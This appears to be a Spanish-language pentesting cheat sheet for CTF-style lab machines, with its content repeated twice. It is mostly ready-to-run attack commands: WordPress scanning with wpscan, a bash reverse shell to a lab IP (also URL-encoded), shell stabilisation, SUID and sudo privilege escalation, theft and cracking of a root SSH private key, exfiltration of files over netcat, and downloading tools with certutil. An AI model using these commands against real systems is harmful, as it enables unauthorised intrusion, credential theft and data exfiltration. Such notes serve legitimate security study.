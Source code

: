 **Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:**

wpscan –url http://ip

**Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:**
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress

**Opciones para crear una shell inversa:**
[revshell](https://www.revshells.com/)

 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 
 **En caso de querer codificarla en url, podemos realizar el siguiente comando:**
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"

**Sacar hashes de ficheros zip:**
zip2john muyconfidencial.zip > hash_muyconfidencial

**Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234**
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos stty rows x columns y

**Página donde ver como escalar privilegios con los binarios (sudo -l )**
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

**Visualizar todos los ficheros ordenados por directorios para ver los permisos**
ls -la /* | less

**Página donde se ven diferentes tipos de ataque:**
[deephacking](https://deephacking.tech/)

**Ejemplo de uso para escalar priv con rutas absolutas:**
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

**Escalar priv por medio de SUID**
Dar privilegios p.j /bin/bash u+s o (4777) ejecutar el comando del ejemplo bash -p (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

**Ejemplo de Búsqueda de Archivos SUID** 
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) find / -perm -4000 2>/dev/null (para buscar directorios).
**Otro ejemplo pero con un editor como puede ser vim:**
vim -c una vez dentro ejecutar: ':!/bin/sh'

**En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en**
/root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash. -> ssh2john ficherodondeguardamoslakey > salidaficherohasheado            john ficherohasheado –wordlist /usr/share/wordlist/rockyou   Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada sudo ssh root@ip -i ficheroconlakey
Enviar ficheros por netcat (Victima) nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip

**Compartir ficheros con máquinas Windows**
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe



**Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login**
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)
























**Para analizar páginas web que estén creadas con WordPress podemos realizar estos dos comandos:** wpscan –url http://ip

**Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:** wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress

**Opciones para crear una shell inversa:** [revshell](https://www.revshells.com/) “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”

**En caso de querer codificarla en URL, podemos realizar el siguiente comando:** urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"

**Sacar hashes de ficheros ZIP:** zip2john muyconfidencial.zip > hash_muyconfidencial

**Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234:** SHELL=/bin/bash script -q /dev/null Hacemos control +z stty raw -echo && fg escribimos reset xterm export TERM=xterm (en la máquina atacante usamos stty size para saber el tamaño de la terminal) En la víctima ejecutamos stty rows x columns y

**Página donde ver cómo escalar privilegios con los binarios (sudo -l):** [gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

**Visualizar todos los ficheros ordenados por directorios para ver los permisos:** ls -la /* | less

**Página donde se ven diferentes tipos de ataque:** [deephacking](https://deephacking.tech/)

**Ejemplo de uso para escalar privilegios con rutas absolutas:** sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

**Escalar privilegios por medio de SUID:** Dar privilegios, por ejemplo, /bin/bash u+s o (4777) ejecutar el comando del ejemplo bash -p (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo).

**Ejemplo de búsqueda de archivos SUID:** find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) find / -perm -4000 2>/dev/null (para buscar directorios).

**Otro ejemplo pero con un editor como puede ser vim:** vim -c una vez dentro ejecutar: ':!/bin/sh'

**En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en /root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash:** ssh2john ficherodondeguardamoslakey > salidaficherohasheado john ficherohasheado –wordlist /usr/share/wordlist/rockyou Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la máquina atacante usando el fichero con la clave privada sudo ssh root@ip -i ficheroconlakey

**Enviar ficheros por netcat (Víctima):** nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (Atacante): nc -nvlp 9999 > BurgerWithoutCheese.zip

**Compartir ficheros con máquinas Windows:** certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe

**Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login:** [Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)


